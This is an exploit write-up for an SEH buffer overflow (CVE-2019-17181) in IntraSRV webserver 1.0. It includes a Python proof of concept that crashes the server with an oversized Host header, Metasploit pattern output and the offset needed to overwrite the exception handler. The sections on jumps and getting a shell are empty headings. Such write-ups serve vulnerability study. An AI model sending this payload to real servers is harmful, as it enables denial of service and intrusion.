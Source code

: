 ```yaml
---
layout: single
title: Remote SEH overflow with multi-staged jumps - CVE-2019-17181 from IntraSRV 
---
```


Sending a unauthenticated and malicious HTTP HEAD request to the application results in a SEH based buffer overflow. This exploit utilizes a short JMP which hits a long JMP back 450 bytes which then hits a standard calculator shellcode payload

## IntraSRV webserver 1.0 SEH overflow writeup

```
# Exploit Title: IntraSRV webserver 1.0 SEH overflow writeup
# Date: 10/10/2019
# Exploit Author: x00pwn
# Vendor Homepage: http://www.leighb.com
# Software Link: http://www.leighb.com/intrasrv.htm
# Version: 1.0	
# Tested on: Windows 7
# CVE : CVE-2019-17181
```

## Introduction

This post covers the exploitation of a remote s c h buffer overflow vulnerability in the intrasrv  web server application, the web server application includes this vulnerability when processing HTTP head requests. 

We can start by running the vulnerable application, and attaching it to immunity debugger.

![remotedjmps1.png](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/remoteseh-d-jmp/remotedjmps1.png)

With our python exploit script, we can start by using a socket connection to send a HTTP request on port 80 to the vulnerable application.  By including a large buffer of A’s,  we can witness the vulnerability taking place via the application crashing, and we see that it is now in a stopped state within our debugger.

```python
#!/usr/bin/python

import socket
from struct import *

victim_host = "10.0.0.161"
victim_port = 80

exploit_payload = "A" * 4000

http_request  = "HEAD / HTTP/1.1\r\n"
http_request += "Host:" + exploit_payload + "\r\n"
http_request += "User-Agent: firefox \r\n"
http_request += "If-Modified-Since: Wed \r\n\r\n"

expl = socket.socket (socket.AF_INET, socket.SOCK_STREAM)

try:
	print("[*] Intrasrv webserver 1.0 SEH overflow POC\n")
	expl.connect((victim_host, victim_port))
	print("[*] Establishing a connection to the vicitm")
	expl.send(http_request)
	print("[*] Sending the payload")
	expl.close()
except:
	print("[!] Exploit failed to send")
```

![remotedjmps2.png](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/remoteseh-d-jmp/remotedjmps2.png)

## Calculate the buffer, find POPPOPRET

Now that we know that the application is vulnerable, we need to conduct the stage of exploitation where we calculate the input buffer size, this can be done with the pattern_create  tool from Metasploit

```
└─▪ ./pattern_create.rb -l 4000
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7.... and more...

```

Adding this unique string to our request  shows us that the Structured Exception Handler and NSEH has been overwritten with a part of the unique string.

![remotedjmps3.png](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/remoteseh-d-jmp/remotedjmps3.png)

Now we need to use the mona.py  extension command !mona findmsp  to calculate the size of the input buffer, based on our uniquely generated string that we gave to the application.

![remotedjmps4.png](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/remoteseh-d-jmp/remotedjmps4.png)

Now we know it only takes 1553 bytes to fill up the input buffer, the next 4 bytes after this will overwrite the SEH handler, and 4 more bytes will overwrite the NSEH handler in the chain also.

## Implement multiple JMPs

## Obtain a shell
